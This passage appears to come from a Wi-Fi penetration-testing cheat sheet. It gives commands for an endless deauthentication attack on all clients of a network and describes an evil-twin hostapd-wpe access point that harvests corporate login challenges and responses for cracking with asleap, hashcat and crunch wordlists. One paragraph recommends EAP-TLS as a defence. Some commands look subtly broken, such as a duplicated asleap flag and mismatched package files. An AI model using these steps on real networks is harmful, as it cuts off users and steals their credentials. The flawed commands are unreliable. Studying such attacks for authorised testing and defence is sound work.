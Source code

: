 -> Use aireplay to perform the deauth attack on all clients on the Wi-Fi network, the value 0 passed to parameter 0 will perform deauth repeatedly without stopping
```bash
aireplay-ng -0 0 -a <bssid> wlan0
```
-> Client will connect to our fake hostapd access point and we will obtain the username, challenge and EAP response from hostapd, stop the attack then

-> hostpad saves usernames, challenges and responses in a log file called hostapd-wpe.log

-> This captured user is a valid user on the network, and can be used in the post-exploitation stage

-> Perform brute force attack with asleap or hashcat with GPU mode

-> Install asleap
```bash
apt-get install asleap
```

-> With the challenge, response and a wordlist perform the brute force attack
```bash
asleap -R <challenge> -R <response> -W wordlist.txt
```

To optimize security on corporate Wi-Fi networks, it is recommended to give preference to authentication with EAP-TLS. There are differences between PEAP and EAP-TLS. PEAP uses user and password authentication on the client and a certificate on the server, offering basic security, but still transmitting credentials, which makes it more susceptible to attacks such as evil twin and data interception. EAP-TLS adopts an approach based on the mutual exchange of certificates, eliminating the need to transmit user credentials.

To implement EAP-TLS effectively, it is recommended that you configure policies on the Network Policy Server (NPS) to authorize RADIUS access exclusively to devices authenticated in the corporate Wi-Fi group. In the Certification Authority (Local) Root Console, it is essential to create and manage suitable certificates, including a certificate template for RAS and IAS Server, allowing "Authenticated Users" to have "enroll" and "autoenroll" permissions. By automatically linking these certificates to a specific organizational unit (OU) or domain, domain-joined devices receive the certificates automatically and securely. As a result, EAP-TLS strengthens network security, minimizes the risk of attacks involving fake APs and improves certificate management in corporate networks.

#### asleap issues
-> In newer versions of kali linux with the asleap 2.3 version, you may encounter some problems, to resolve them use the asleap2.2 version
```bash
wget https://security.debian.org/debian-security/pool/updates/main/o/openssl1.0/libssl1.0.2_1.0.2u-1~deb9u7_amd64.deb
sudo apt install ./libssl1.0.2_1.0.2u-1\~deb9u1_amd64.deb
wget https://archive.debian.org/debian/pool/main/o/openssl1.0/libssl1.0.2_1.0.2u-1~deb9u1_amd64.deb 
sudo apt install ./asleap_2.2-1kali7_amd64.deb
```
## General utilities
### Wordlists
#### Crunch - Create wordlist
-> Generate a wordlist with all possible numbers [0-9] with a minimum and maximum of 8 characters
```bash
crunch 8 8 0123456789 >> wordlist-numerica.txt
```
